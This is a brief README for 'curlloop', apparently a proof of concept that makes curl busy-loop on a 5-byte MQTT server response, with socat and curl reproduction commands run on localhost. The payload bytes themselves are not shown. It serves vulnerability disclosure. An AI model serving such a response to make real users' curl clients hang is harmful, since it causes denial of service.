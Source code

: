 # curlloop
A 5 byte PoC for busylooping curl

## How to reproduce
Run the following on linux with the file "poc" :

``
$ socat -u FILE:poc TCP-LISTEN:12345,reuseaddr,fork
``

Access with curl:

``
$ curl mqtt://localhost:12345
``

Observe busyloop.
